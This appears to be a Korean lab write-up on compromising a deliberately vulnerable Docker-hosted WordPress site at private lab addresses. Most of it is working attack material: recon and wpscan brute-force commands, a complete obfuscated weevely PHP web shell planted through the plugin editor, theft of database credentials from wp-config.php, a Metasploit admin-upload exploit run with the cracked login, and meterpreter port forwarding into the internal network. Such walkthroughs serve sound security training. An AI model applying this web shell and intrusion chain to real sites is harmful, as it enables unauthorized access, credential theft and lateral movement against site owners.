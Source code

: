```yaml
---
layout: single
title: "docker 환경으로 구성된 WordPress 블로그 Hacking 실습"
categories: Security
toc: true
author_profile: false
sidebar:
  nav: "docs"
---
```


![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/13f1f546-cc3c-4287-8bca-252a673443b8)

## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]


 
## 웹쉘 연결 후 내부 정보 수집

- 대부분 wordpress에서 플러그인 업로드를 하면 /wp-content/plugins/[펄러그인].php
```
http://192.168.146.129:8000/wp-content/plugins/hello.php hacker
```

- nmap 바이너리 파일을 weevely의 file_upload 모듈을 사용하여 침투한 시스템에 업로드.
- https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap 다운로드 하여 kali에 옮기기
- tmp 파일에 nmap 바이너리를 넣는 이유는 침투했을 때 권한이 www-data 이기 때문에 권한이 있는 임시 디렉토리인 tmp에 업로드 한 것이다.
```
file_upload /home/kali/Downloads/nmap /tmp/nmap
ls
chmod +x nmap
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/fa80b0c0-2ce3-47dd-a159-5b42f6929c3e)

- 내부 프라이빗 ip 확인후 내부 인터넷 망 스캔

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/67d1f594-b753-472f-8d7a-26275ef88c6e)

```
ip addr
./nmap 172.18.0.0/24
```

- nmap 결과로 보아 현재위치는 웹서비스를 제공하는 서버이다.
- 172.18.0.2 는 Database mysql 서버이다.
- 172.18.0.4 는 ssh로 내부로 접속을 하기 위한 bastion 서버로 추측 할 수있으며, 8022의 목적을 알 수 없는 포트가 열려있다.
- 일반적으로 8022 포트는 표준 SSH(Secure Shell) 포트인 22의 대안으로 사용될 수 있다.

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c59d3ba2-7fae-48c9-b422-aea6ca8decfb)

- db 서버가 있는 것을 확인했으니 db서버 정보를 획득 해야한다.
- wordpress 에서는 wp-config.php에 db 계정 정보가 담겨있다.

```
cd /var/www/html
ls
cat wp-config.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7d441bb0-b738-4597-b4cd-871aa6b8ae55)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2738974d-576d-45e2-9b2b-695a5801cc91)

- 브라우저로 접속했을 때 docker환경인 것을 힌트로 얻을 수 있었지만 확실하게 한번더 확인한다.
- docker 환경에 init 프로세스는 대부분 docker 이므로
- /proc/1/cgroup 내용을 확인하여 docker 환경임을 확신한다.

```
cat /proc/1/cgroup
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/8657076e-2fd2-42c7-b492-805a7873818c)



## 8022 포트 공격
- Kali에서 다른 터미널을 연다.

```
sudo msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOSTS 192.168.146.129
set RPORT 8000
set USERNAME bob
set PASSWORD Welcome1
exploit
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12a8d10e-1035-4971-b134-92d1c9f11c37)

- 내부에 침투하여 nmap으로 내부망 서버 구성을 확인하였다.
- 미터프리터 즉 웹서비스안에 msfconsole로 침투 성공도 하였다.
- 미터프리터의 기능인 포트포워딩 기능을 이용하여 해커의 8022 포트를 연다
- 해커는 자신의 브라우저에 localhost:8022로 접속을하면 침투한 내부망의 bastion 서버인 172.18.0.4:8022로 포워딩 해준다.

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2c786847-330a-4c68-8ad7-42552c70097e)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/02d167a5-9741-47c3-87e6-9fd59ec6b476)

- 분명 172.18.0.4:8022로 포트포워딩을 했는데 172.18.0.2로 접속되었다.
- 즉 172.18.0.4:8022는 내부 db서버인 172.18.0.2로 접속하는 포트였던 것이다.
- 획득한 db정보를 통해 접속해보자.

```
mysql -u wordpress -p
Enter password : WordPressISBest
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/d3f8d1d3-f2fc-4085-977b-e39f98be548f)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12eb1c7b-d758-4ed7-af81-a858a0defd48)

